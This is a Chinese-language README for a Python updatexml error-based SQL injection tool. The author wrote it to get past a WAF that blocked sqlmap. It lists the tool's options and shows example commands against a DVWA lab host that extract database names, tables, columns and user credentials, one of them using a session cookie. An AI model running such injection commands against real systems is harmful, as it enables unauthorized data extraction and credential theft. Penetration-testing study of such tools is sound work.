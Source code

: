 # updatexml
updataxml注入小工具

在某项目中遇到了需要通过updataxml注入获取大量数据的需求，但是由于服务器上有waf，sqlmap很容易就被封了，而且只能指定注入类型使用报错注入，但是不能指定注入语句，感觉sqlmap发送的很多语句都不是必须的，所以自己写了这个工具，简单粗暴的指定了几个uodatexml直接注入获取数据库，数据表等的指定语句，去除了多余的探测。

#### 使用要求
- python3.x

#### 使用方法
- 总体操作方法和sqlmap一样
- data结果会自动输出到以hostname命令的文件夹里面
1. 参数
```
usage: updatexml_sql.py [-h] [-u URL] [-r FILE] [-p PARAMETER] [-s PROTOCOL]
                        [-cookie COOKIE] [--current] [--tables] [--columns]
                        [-D DATABASE] [-T TABLE] [-C COLUMN]

SQL Updatexml

optional arguments:
  -h, --help            show this help message and exit
  -u URL, --url URL     Start scanning url with GET method
  -r FILE, --file FILE  Start scanning url with POST method, Request body
  -p PARAMETER, --parameter PARAMETER
                        Which parameter can be injected
  -s PROTOCOL, --protocol PROTOCOL
                        If you use -r, should add http or https
  -cookie COOKIE, --cookie COOKIE
                        cookie
  --current             Get database
  --tables              Get tables
  --columns             Get columns
  -D DATABASE, --database DATABASE
                        Which Database need get data
  -T TABLE, --table TABLE
                        Which Table need get data
  -C COLUMN, --column COLUMN
                        Which columns need get data
```
**注意事项（重要！！）：** 
- 如果是字符型注入请自己在URL或者post包里面的注入参数的地方加上单引号或者双引号！

2. Get方式的直接输入url和指定注入的参数（必须）
```
python3 updatexml_sql.py -u http://192.168.76.154/dvwa/vulnerabilities/sqli/?id=1%27&Submit=Submit -p id --current  //--current是获取当前数据库,-p指定存在注入的参数，且如果是字符型注入，在注入参数的地方自己加上单引号或者双引号

python3 updatexml_sql.py -u http://192.168.76.154/dvwa/vulnerabilities/sqli/?id=1%27&Submit=Submit -p id -D dvwa --tables //获取数据表

python3 updatexml_sql.py -u http://192.168.76.154/dvwa/vulnerabilities/sqli/?id=1%27&Submit=Submit -p id -D dvwa -T user --columns  //获取字段

python3 updatexml_sql.py -u http://192.168.76.154/dvwa/vulnerabilities/sqli/?id=1%27&Submit=Submit -p id -D dvwa -T user -C user_id,username,password //获取指定字段的值

python3 updatexml_sql.py -u http://192.168.76.154/dvwa/vulnerabilities/sqli/?id=1%27&Submit=Submit -p id --current -cookie 'security=impossible; PHPSESSID=6c7qeijtq9ht3h1t54m0p60p20' //-cookie 指定cookie
```
3.POST请求使用读取请求头文件的方式
```
python3 -r header.txt -s https -p id --current  // 注意使用-s参数指定是http还是https
```

